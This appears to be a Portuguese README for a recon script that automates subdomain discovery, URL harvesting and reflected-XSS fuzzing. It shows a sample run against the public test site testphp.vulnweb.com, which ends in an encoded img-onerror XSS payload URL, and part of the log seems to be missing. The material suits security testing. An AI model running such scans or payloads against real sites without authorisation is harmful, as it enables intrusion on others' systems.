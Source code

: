 # hsctch

#Acessar a pasta onde baixou o arquivo

#Executa o comando abaixo:

#python3 /root/reconx-hsctch.py 

#Digite o domínio alvo (exemplo: dominio.com.br): 

testphp.vulnweb.com



_    _  _____  _____ _______ _____ _    _
| |  | |/ ____|/ ____|__   __/ ____| |  | |
| |__| | (___ | |       | | | |    | |__| |
|  __  |\___ \| |       | | | |    |  __  |
| |  | |____) | |____   | | | |____| |  | |
|_|  |_|_____/ \_____|  |_|  \_____|_|  |_|

                                           

Executando: 

Executando assetfinder
Comando: assetfinder -subs-only testphp.vulnweb.com | anew subdomains.txt
Saída: 
Executando assetfinder concluído com sucesso.

Executando: Executando httprobe
Comando: cat subdomains.txt | httprobe | tee -a host.txt
Saída: http://testphp.vulnweb.com

Executando httprobe concluído com sucesso.
Executando: Executando waybackurls
Comando: cat host.txt | waybackurls | tee -a endpoint.txt

Executando freq para encontrar possíveis XSS concluído com sucesso.
Executando: Buscando por XSS FOUND
Comando: grep 'XSS FOUND' possible_xss.txt > resultado.txt
Saída:
Buscando por XSS FOUND concluído com sucesso.
Busca concluída.

#ls

endpoint.txt  host.txt  possible_xss.txt  resultado.txt  subdomains.txt  xss_fuzz.txt

#cat resultado.txt

XSS FOUND: http://testphp.vulnweb.com:80/hpp/index.php?pp=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22




